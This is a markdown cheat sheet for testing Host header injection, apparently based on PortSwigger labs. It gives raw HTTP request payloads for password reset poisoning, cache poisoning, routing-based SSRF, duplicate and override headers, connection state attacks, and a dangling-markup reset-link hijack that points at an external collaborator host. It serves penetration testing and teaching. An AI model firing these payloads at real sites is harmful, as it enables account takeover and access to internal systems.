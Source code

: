 ## Table of Contents
1. [Introduction](#introduction)
2. [Where to Put a Host Header Injection Payload?](#where-to-put-a-host-header-injection-payload)
3. [How to Test for Host Header Injection?](#how-to-test-for-host-header-injection)
   - 3.1 [Supply an Arbitrary Host Header](#supply-an-arbitrary-host-header)
   - 3.2 [Accessing Restricted Functionality or Routing-Based SSRF](#accessing-restricted-functionality-or-routing-based-ssrf)
   - 3.3 [Send Ambiguous Requests](#send-ambiguous-requests)
      - 3.3.1 [Inject Duplicate Host Headers](#inject-duplicate-host-headers)
      - 3.3.2 [Add Line Wrapping](#add-line-wrapping)
      - 3.3.3 [Supply an Absolute URL](#supply-an-absolute-url)
      - 3.3.4 [SSRF via Flawed Request Parsing](#ssrf-via-flawed-request-parsing)
      - 3.3.5 [Inject Host Override Headers](#inject-host-override-headers)
   - 3.4 [Connection State Attacks](#connection-state-attacks)
   - 3.5 [SSRF via a Malformed Request Line](#ssrf-via-a-malformed-request-line)
   - 3.6 [Check for Flawed Validation](#check-for-flawed-validation)

## Introduction
**Host Header Injection** is a web security vulnerability that occurs when an application improperly trusts the value of the "Host" header in an HTTP request. If an attacker can manipulate this header and the server processes or uses it without validation, the attacker may exploit it for various attacks, such as web cache poisoning, server-side request forgery (SSRF), password reset poisoning, or bypassing access control mechanisms.

### Where to Put a Host Header Injection Payload?

A Host Header Injection payload is placed directly in the "Host" header of an HTTP request. The attacker modifies the value of the header to exploit the vulnerability. Here are some example scenarios:

### Normal Case
If an application generates absolute links based on the "Host" header, you can manipulate the header value to control the generated links.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: evil.com
```
If the server uses the "Host" header to build links like `http://original-website.com/page`, it may now generate `http://evil.com/page`, potentially allowing the attacker to perform phishing attacks.

### Web Cache Poisoning Using Host Header Injection

If the application is cached based on the "Host" header, an attacker can manipulate the cache to store a malicious response.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: evil.com
X-Forwarded-Host: vulnerable-website.com
```
Here, the attacker manipulates the "Host" header to `evil.com`, while the actual content belongs to the original website. If this response gets cached, future visitors may see the attacker's content.

### Password Reset Poisoning via Host Header Injection

When an application sends password reset links based on the "Host" header, an attacker can manipulate the header to send a reset link pointing to their controlled domain.

**Example HTTP Request:**
```
POST /reset-password HTTP/1.1
Host: evil.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

email=user@victim.com
```
In this case, the password reset link may be generated using `evil.com`, making the victim click on a malicious link controlled by the attacker.

### Exploiting Host Header Injection for SSRF

Host Header Injection can be combined with SSRF if the server uses the "Host" header to perform server-side requests.

**Example HTTP Request:**
```
GET /internal-api HTTP/1.1
Host: 127.0.0.1
```
Here, the server might use the "Host" header to make requests internally, allowing the attacker to access internal resources.

# How to Test for Host Header Injection?
___
## Supply an arbitrary Host header
If vulnerable, this will generate 200 OK response or 504 server gateway error.
```txt
GET /example HTTP/1.1
Host: google.com
```
## Accessing restricted functionality or Routing Based SSRF
#### It is common for websites to not restrict access to certain functionality for internal users only or host private sites in same server. Try to access it by localhost or brute-forcing.
```txt
Host: localhost
Host: 127.0.0.1
Host: 192.168.0.$fuzz$
```
## Send ambiguous requests
#### Inject duplicate Host headers
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: google.com
```
#### Add line wrapping
```txt
GET /example HTTP/1.1
    Host: google.com
Host: vulnerable-website.com
```
#### Supply an absolute URL
##### Normal case
```txt
GET https://vulnerable-website.com/ HTTP/1.1
Host: google.com
```
##### SSRF via flawed request parsing
```txt
GET https://0ada009a03fb929382cd2e7000e600be.web-security-academy.net HTTP/2
Host: ybdifpxyiesrimyyvm2e9wxgy74yssgh.oastify.com
```
In this case, now try bruteforcing ip address.
#### Inject host override headers
```txt
X-Forwarded-Host:
X-Host:
X-Original-URL:
X-Forwarded-Server:
X-HTTP-Host-Override:
Forwarded:
X-Forwarded-For:
```
Note: In Burp Suite, you can use the Param Miner extension's "Guess headers" function to automatically probe for supported headers using its extensive built-in wordlist.
## Connection state attacks
#### For performance reasons, many websites reuse connections for multiple request/response cycles with the same client. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 
```
Step 1 >> Duplicate a request.
Step 2 >> Change the Connection header to keep-alive in 1st request.
Step 3 >> Change the request method GET to POST in 2nd request.
Step 4 >> Mention the administrator path and change the host to local ip in 2nd request.
Step 5 >> Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection) and send both request together.
```
```txt
POST /admin HTTP/1.1
Host: 192.168.0.1 
```
## SSRF via a malformed request line
####  A reverse proxy might take the path from the request line, prefix it with http://backend-server, and route the request to that upstream URL. If the path starts with @ instead of /, the resulting upstream URL will be http://backend-server@private-intranet/example, which most HTTP libraries interpret as a request to access private-intranet with the username backend-server. So try to use @ instead of /
```txt
GET @private-intranet/example HTTP/1.1
```
## Check for flawed validation
Instead of receiving an "Invalid Host header" response, you might find that your request is blocked as a result of some kind of security measure. If this happen, try to use port or non numeric staff in port. (You can use this method for password reset link hijacking via dangling markup) (Check portswigger for more)
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
Host: vulnweb.com:'<a href="//8jsdeu8fe6r8ju28t0lsplhjhan1bvzk.oastify.com/? (Password reset link hijacking via dangling markup)
```
